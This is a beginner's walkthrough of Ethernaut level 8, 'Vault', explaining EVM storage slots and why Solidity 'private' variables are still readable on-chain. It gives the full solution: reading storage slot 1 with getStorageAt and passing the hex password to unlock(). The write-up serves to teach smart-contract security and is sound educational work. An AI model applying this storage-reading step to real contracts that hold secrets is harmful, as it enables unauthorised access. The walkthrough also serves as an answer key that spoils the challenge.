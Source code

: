 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 8 - Vault"
datePublished: Mon Mar 20 2023 18:39:19 GMT+0000 (Coordinated Universal Time)
cuid: clfh68201000009jsgtpz6r40
slug: ethernaut-walkthrough-for-noobs-8-vault
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1679332292683/31c4e16f-8f53-4d94-9351-4a28c8cd525b.jpeg
tags: ethereum, smart-contracts, 2articles1week, ethernaut, smart-contract-security-audit

---
```


This challenge basically teaches how nothing is really private on the blockchain and all data can be seen by everyone. The word `private` or `internal` should not be used to store "private" things like passwords.

> Objective: Unlock the vault to pass the level!

### Background

In the previous challenges, I talked about the concept of storage. Notice how in EVM data is stored in slots that are 32 bytes in size. For Example:

```solidity
contract Example {
 uint256 a; //slot0
 uint128 b; //slot1
 uint128 c; //slot1
} 

//Good Practice
```

```solidity
contract Example {
 uint128 a; //slot0
 uint256 b; //slot1
 uint128 c; //slot2
} 

//Bad Practice
```

The first state variable is assigned slot0, the second variable is assigned slot1, and so on. If by chance a variable needs less than 32 bytes, it's packed with the next variable to optimize storage.

According to Solidity documentation:

> Private functions and state variables are only visible for the contract they are defined in and not in derived contracts.

That is, other contracts can't access [private](https://swcregistry.io/docs/SWC-136) variables, but they still are visible.

*Note:*

1. *It is recommended to encrypt important data and then store it in the blockchain. The decryption key should never be on-chain in any shape or form whatsoever.*
    
2. *To save gas, it is recommended to use* `constant` *and* `immutable` *variables, their value has to be fixed at compile time and construction time respectively. Hence, a storage slot is not reserved for these types of variables.*
    

### Code of Importance

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked; //state variable (slot0)
  bytes32 private password; //point of attack, since it can be read as explained above. (slot1)

  constructor(bytes32 _password) {
    locked = true; //initialised as true, we need it to be false
    password = _password; //password is set by the deployer. 
  }

  function unlock(bytes32 _password) public {
    if (password == _password) { //if we guess the password
      locked = false; //we unlock the lock. 
    }
  }
}
```

Plan of attack: Get the data stored in slot1, since we know bytes32 will take an entire slot --&gt; put it in function `unlock`.

### Solution

1. Create a new level instance and fire up the console.
    
2. ```javascript
    await web3.eth.getStorageAt(contract.address, 1)
    //adds your instance address, 1 is the slot number.
    ```
    
3. ```javascript
    await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
    
    //fun task: convert the password from hex to ascii, and check what it is.
    ```
    
4. Submit Instance.
    

Vault✅